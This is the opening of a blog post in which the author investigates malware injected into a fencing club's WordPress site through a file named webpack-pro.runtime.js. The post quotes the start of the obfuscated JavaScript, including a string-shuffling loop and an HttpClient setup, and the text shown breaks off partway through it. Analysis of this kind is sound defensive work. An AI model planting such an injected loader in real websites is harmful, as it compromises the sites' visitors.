 ```yaml
---
layout: post
title: "Investigating Malware on My Fencing Club's Website"
description: "How I got nerd-sniped into investigating obfuscated JavaScript"
date: 2025-04-18
category: "Technical"
tag: "Technical"
---
```


The other day, I shared a link to my fencing club's website on social media, and someone commented saying that
the website was flagged by their Norton AntiVirus extension.

I was pretty skeptical at first, but I reached out for more info just in case. 

The file that was flagged was called `webpack-pro.runtime.js`, allegedly included by the elementor Wordpress plugin.

I knew that outdated Wordpress sites and plugins were easy to compromise, and viewing the source in my browser immediately roused my suspicions further.

There was a section at the end of the file that looked different from normal minimized JavaScript:

```javascript
if (typeof zqxq === "undefined") {
    (function(N, M) {
        var z = {
                N: 0xd9,
                M: 0xe5,
                P: 0xc1,
                v: 0xc5,
                k: 0xd3,
                n: 0xde,
                E: 0xcb,
                U: 0xee,
                K: 0xca,
                G: 0xc8,
                W: 0xcd
            },
            F = Q,
            g = d,
            P = N();
        while (!![]) {
            try {
                var v = parseInt(g(z.N)) / 0x1 + parseInt(F(z.M)) / 0x2 * (-parseInt(F(z.P)) / 0x3) + parseInt(g(z
                        .v)) / 0x4 * (-parseInt(g(z.k)) / 0x5) + -parseInt(F(z.n)) / 0x6 * (parseInt(g(z.E)) /
                    0x7) + parseInt(F(z.U)) / 0x8 + -parseInt(g(z.K)) / 0x9 + -parseInt(F(z.G)) / 0xa * (-parseInt(
                        F(z.W)) / 0xb);
                if (v === M) break;
                else P['push'](P['shift']());
            } catch (k) {
                P['push'](P['shift']());
            }
        }
    }(J, 0x5a4c9));
    var zqxq = !![],
        HttpClient = function() {
            var l = {
                    N: 0xdf
                },
                f = {
```